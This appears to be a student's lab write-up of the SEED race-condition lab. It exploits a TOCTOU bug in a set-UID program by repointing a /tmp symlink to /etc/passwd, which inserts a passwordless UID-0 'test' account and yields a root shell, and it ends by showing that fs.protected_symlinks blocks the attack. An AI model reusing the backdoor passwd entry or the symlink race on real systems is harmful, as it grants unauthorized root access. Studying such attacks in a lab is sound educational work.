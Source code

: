# Answer in my observation

## Task 1
- When add the following entry to the end of the `/etc/passwd` file:

``` test:U6aMy0wojraho:0:0:test:/root:/bin/bash ```

- We can log in as `root` without typing a password when logging into `test` accout.

```console
[03/28/24]seed@VM:~/.../Labsetup$ su test
Password: 
root@VM:/home/seed/race_cond/Labsetup# whoami
root
```

## Task 2
### Task 2A:
- To add a `root` account to the system. While running the program `vulp` and pausing it in 10 seconds, I will open another terminal and make `/tmp/XYZ` file a symbolic link to `/etc/passwd` immediately. After 10s, I create `test` as a root user.

+ Terminal 1:
```console
[03/28/24]seed@VM:~/.../Labsetup$ ./vulp 
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
No permission 
[03/28/24]seed@VM:~/.../Labsetup$ ./vulp 
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
[03/28/24]seed@VM:~/.../Labsetup$ cat /etc/passwd | grep test
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
[03/28/24]seed@VM:~/.../Labsetup$ su test
Password: 
```

+ Terminal 2:
```console
[03/28/24]seed@VM:~$ ls -ld /tmp/XYZ 
lrwxrwxrwx 1 seed seed 9 Mar 28 12:37 /tmp/XYZ -> /dev/null
[03/28/24]seed@VM:~$ ln -sf /etc/passwd /tmp/XYZ 
[03/28/24]seed@VM:~$ ls -ld /tmp/XYZ
lrwxrwxrwx 1 seed seed 11 Mar 28 12:38 /tmp/XYZ -> /etc/passwd
```

### Task 2B:
- Running the attack file and vulnerable program parallely

```console
[03/29/24]seed@VM:~/.../Labsetup$ ./target_process.sh
[...]
No permission 
No permission 
No permission 
No permission 
No permission 
STOP... The passwd file has been changed
[03/29/24]seed@VM:~/.../Labsetup$ su test
Password:   # Dont have to type password
root@VM:/home/seed/race_cond/Labsetup# 
```

### Task 2C:
- This strategy attack is faster than the previous attack.

## Task 3
### Task 3B:
- This time, I will turn on protection scheme against race condition attacks and using the same race condition attack scenario as Task 2A &rarr; The attack is not successful.

```console
[03/29/24]seed@VM:~/.../Labsetup$ sudo sysctl -w fs.protected_symlinks=1
fs.protected_symlinks = 1
```

```
[03/29/24]seed@VM:~/.../Labsetup$ ./vulp 
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
Segmentation fault
[03/29/24]seed@VM:~/.../Labsetup$ su test
su: user test does not exist
```

- When this protection scheme is set to “1”, symlinks are permitted to be followed only when outside a sticky world-writable directory, or when the uid of the symlink and follower match, or when the directory owner matches the symlink’s owner.

# References:
- https://www.geeksforgeeks.org/ln-command-in-linux-with-examples/
- https://unix.stackexchange.com/questions/81674/what-does-l-mean-in-an-ls-listing
- https://www.kernel.org/doc/html/latest/admin-guide/sysctl/fs.html?highlight=protected_symlinks#protected-symlinks